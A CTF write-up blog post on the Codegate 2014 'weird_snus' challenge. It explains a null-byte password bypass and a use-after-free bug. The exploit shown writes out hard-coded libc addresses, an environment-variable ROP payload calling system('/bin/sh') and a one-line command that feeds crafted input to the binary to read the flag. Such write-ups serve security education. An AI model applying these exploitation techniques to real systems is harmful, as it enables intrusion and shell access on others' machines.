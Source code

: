 ```yaml
---
title: Codegate CTF Quals 2014 weird_snus writeup
author: kelwin
layout: post
permalink: /2014-02-25-codegate-ctf-quals-2014-weird_snus-writeup/
comments: true
categories:
  - CTF
  - writeup
---
```


## vulnerabilities
1. Password protection can be easily bypassed by giving a input of '0x00'
2. We quickly identified there is a use-after-free bug. After verifying the password, the program runs into an endless command processing mode, where user can input various buffer command to do some strange things. The first letter in each command represents the action to perform. Command A will check if a struct pointer exists, if so, it will call the function pointer in the struct, or it will allocate a new struct. Command D will reallocate the struct can free it later without cleat the struct pointer. So fist calling command D, and then calling command A will trigger a use-after-free crash. If we find somewhere to do the similar size malloc and fill the struct including the function pointer, we could hijack the control of the program.

## Exploitation

Luckily we found that there is a command M can do arbitrary size allocation. The path of current working directory will be put in the content of the new allocation. So we can construct a directory, whose path contains evil function pointer. Then we trigger the use-after-free bug mentioned above.

To get a shell, we first put a large amount of ROP payload(system('/bin/sh')) in the environment variable,
and then we use an `add esp` gadget in the libc to raise the stack to the place where environment variables are stored in. `ulimit -s unlimited` trick is used to get rid of libc address randomization.

## Code

### important addresses

    system: 0x40079260 
    binsh: 0x401a1b98

    11817d:       81 c4 8c 22 00 00       add    $0x228c,%esp
    0x40079260 - 0x41260 + 0x11817d 0x4015017d   \x7d\x01\x15\x40

### commands
Disable libc randomization:
    
    ulimit -s unlimited

Create a directory and cd to it:
    
    python -c 'import os; os.makedirs("/tmp/aaaa/aa\x7d\x01\x15\x40")'

Set ROP payloads in an environment variable and trigger use-after-free bug. Notice that the python variable `o` should be adjusted to achieve the stack alignment. The number below is just an example.

    export EXPLOIT=$(python -c 'o = 4; print "a" * o + "\x60\x92\x07\x40\x60\x92\x07\x40\x98\x1b\x1a\x40\x98\x1b\x1a\x40" * 2000+"a" * (8 - o)'); (python -c 'print "\x00\nkelwin\nA\nM\nG\x10\x00\x00\x00\nA\n"'; echo "cat /home/strongest_snus/flag"; cat ) | /home/strongest_snus/weird_snus \(
    
 
